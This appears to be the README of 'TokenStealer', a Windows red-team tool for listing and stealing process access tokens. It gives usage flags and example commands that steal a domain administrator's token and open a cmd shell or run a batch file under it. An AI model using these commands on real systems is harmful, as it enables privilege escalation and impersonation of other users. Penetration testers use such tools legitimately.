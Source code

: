 # TokenStealer
A simple tool I wrote some time ago for stealing and playing with Windows tokens.<br>
Parts of code have been taken and adatpted from https://github.com/FSecureLABS/incognito
<br>
Clearly, you will require Impersonation or AssignPrimary privilege and Debug privilege to access all processes.<br>
Typically, you would run the tool with the highest local privileges, such as SYSTEM.
<br><br>
```
TokenStealer.exe
[+] My personal simple and stupid  Token Stealer... ;)<br>
[+] v1.0 @decoder_it 2023<br>

[!] Usage:
         -l: list all user's token<br>
         -e: list all user's token with extended info -> [user]:[token_level (2)=Impersonation, (3)=Delegation,(P)=Primary>]:[pid]:[SessionId]<br>
         -p: <pid> list/steal  token from specfic  process pid
         -u: <user> list/steal token of user
         -c: <command> command to execute with token 
         -t: force use of impersonation Privilege 
         -b: <token level> needed token type: 1=Primary,2=Impersonation,3=Delegation 
         -s: <SessionId> list/steal token from specific Session ID

=Examples=
TokenStealer.exe -e -b 1 </b> -> list all primary tokens
TokenStealer.exe -l -p 100 </b>-> list all tokens in process pid 100
TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -> steal token of the user and execute an interactive  command shell using the AssingPrimary privilege if available
TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\bind.bat  -p 100 -t -> steal token of the user in process 100 and execute the batch file using Impersonation privilege instead of AssingPrimary
TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -b 1 -> steal a primary token of the user and execute an interactive  command shell using the AssingPrimary privilege if available
TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -s 2 -> steal a token of the user in specific SessionID and execute an interactive  command shell using the AssingPrimary privilege if available

```
<img src="https://github.com/decoder-it/TokenStealer/blob/master/Capture.PNG" alt="Alt text" title="Optional title">




